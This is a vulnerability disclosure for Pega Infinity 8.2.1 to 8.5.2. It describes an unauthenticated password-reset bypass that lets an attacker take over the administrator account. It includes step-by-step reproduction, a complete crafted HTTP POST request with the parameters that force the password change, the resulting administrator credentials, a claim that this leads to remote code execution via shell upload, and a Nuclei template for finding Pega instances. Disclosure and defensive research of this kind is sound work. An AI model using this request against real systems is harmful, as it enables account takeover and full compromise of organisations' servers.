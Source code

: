 ## Summary
An attacker can bypass all stages of the password reset flow and reset any user's account on Pega infinity. This is done by (1) initiating the password reset flow and typing in the victim email, then (2) forcing the HTTP POST request to update the password through. An attacker could login using the newly edited account and fully compromise the Pega instance via the many acceptable post-auth code execution vectors (modifying dynamic pages, templating, etc.)

## Steps to Reproduce
1. Browse to the login page of any Pega instance
2. Click "reset password"
3. Type in "administrator@pega.com", proxy the HTTP request, send the HTTP request with the "administrator@pega.com" to the Burp repeater tab or any similar tab, then allow the request to go through by disabling the proxy or clicking "send"
4. After allowing the initial request to go through, modify the HTTP requests body in the repeater so it includes the following data...

```
POST /prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD HTTP/1.1 (:PEGA_ID is a unique ID for each site, it is in this format: ZOgwf2Zk3OsEg_oG74MXXxG2bXKbv56W)
Host: redacted.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://redacted.com
DNT: 1
Connection: close
Referer: https://redacted.com/prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD
Cookie: yourCookie
Upgrade-Insecure-Requests: 1

pzAuth=guest&NewPassword=Rules%401234&ConfPassword=Rules%401234&pyActivity%3DCode-Security.pzChangeUserPassword=
```

5. Login using the following credentials after sending the HTTP request, having bypassed the confirmation part of reset password and being able to login to the administrator account...

```
administrator@pega.com / Rules@1234
```

6. From there, you can achieve RCE via any of the many accepted use administrator-only code execution vectors

## Affected Versions
Pega Infinity >= 8.2.1
Pega Infinity <= 8.5.2

## Impact
Full compromise of any Pega instance with no prerequisite knowledge.

## Supporting Media
![Password bypass](https://i.imgur.com/kxLRhys.png)
* Password bypass

![Remote code execution via shell upload](https://i.imgur.com/zC8kOfG.png)
* Remote code execution via shell upload

## Nuclei Template
```
id: pega

info:
  name: Pega Infinity Login
  author: sshell
  severity: low

requests:
  - method: GET
    path:
      - "{{BaseURL}}/prweb/PRRestService/unauthenticatedAPI/v1/docs"
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55
    matchers:
      - type: word
        words:
          - "Pega API"
```

## Credit
Samuel Curry (@samwcyo), Brett Buerhaus (@bbuerhaus), Maik Robert (@xEHLE_), Justin Rhinehart (@sshell_)
